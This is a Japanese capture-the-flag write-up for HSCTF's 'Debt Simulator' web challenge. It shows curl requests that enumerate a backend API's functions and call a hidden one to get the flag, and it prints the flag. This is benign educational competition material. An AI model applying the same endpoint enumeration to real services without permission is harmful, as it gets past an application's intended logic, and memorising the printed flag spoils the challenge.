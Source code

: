 # Debt Simulator:Web Exploitation:100pts
[https://debt-simulator.web.hsctf.com/](https://debt-simulator.web.hsctf.com/)  

# Solution
アクセスするとゲームが楽しめる。  
Debt :))  
[site.png](site/site1.png)  
絶対に勝てないようになっているのでズルをしてみる。  
$-1000で`You lost. You have less than $-1000. Better luck next time.`  
$2000で`You won. You have more than $2000. Try your luck again?`  
と表示されるだけだ。  
通信を見てみる(ソースのjsを見ても良い)と、https://debt-simulator-login-backend.web.hsctf.com/yolo_0000000000001にPOSTしている。  
再現は以下になる。  
```bash
$ curl -X POST -d "function=getPay" https://debt-simulator-login-backend.web.hsctf.com/yolo_0000000000001
{"response":15}
$ curl -X POST -d "function=getCost" https://debt-simulator-login-backend.web.hsctf.com/yolo_0000000000001
{"response":52}
$ curl -X POST -d "function=AAAAA" https://debt-simulator-login-backend.web.hsctf.com/yolo_0000000000001
{"response":"could not recognize function"}
$ curl -X POST -d "function=getFlag" https://debt-simulator-login-backend.web.hsctf.com/yolo_0000000000001
{"response":"nice try but no"}
```
functionが不明である。  
getFlagでは取れないようだ。  
GETすると降ってきたので、getgetgetgetgetgetgetgetgetFlagを使うとflagが得られる。  
```bash
$ curl -X GET https://debt-simulator-login-backend.web.hsctf.com/yolo_0000000000001
{"functions":["getPay","getCost","getgetgetgetgetgetgetgetgetFlag"]}
$ curl -X POST -d "function=getgetgetgetgetgetgetgetgetFlag" https://debt-simulator-login-backend.web.hsctf.com/yolo_0000000000001
{"response":"flag{y0u_f0uND_m3333333_123123123555554322221}"}
```

## flag{y0u_f0uND_m3333333_123123123555554322221}